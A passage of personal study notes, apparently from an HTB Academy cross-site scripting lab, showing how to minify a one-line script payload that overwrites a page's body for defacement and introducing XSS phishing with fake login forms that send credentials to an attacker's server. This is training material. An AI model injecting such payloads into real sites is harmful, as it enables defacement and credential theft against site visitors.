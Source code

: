 jquery can be more efficient in changing multiple elements in one line (jquery must be loaded): 

`$("#todo").html('New Text')` 

could even change the whole HTML code with: 

`document.getElementsByTagName('body')[0].innerHTML = "New Text"`

to push our final payload we will want to minify it into one line: 

```html
<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy"> </p></center>'</script>
```

we can see our payloads at the end of the page's source code: 

![](Images/Pasted%20image%2020240124180831.png)

in this example the elements we are targeting are at the end of the source code but if we wanted to inject on an element in the middle of the source then other scripts/elements might require modifications to our payload

## Phishing

common form of XSS phishing is injecting fake login forms that send the login details to the attacker's server 

### XSS Discovery 

our target is an image URL form that displays our URL via a URL parameter: 

![](Images/Pasted%20image%2020240124181541.png)
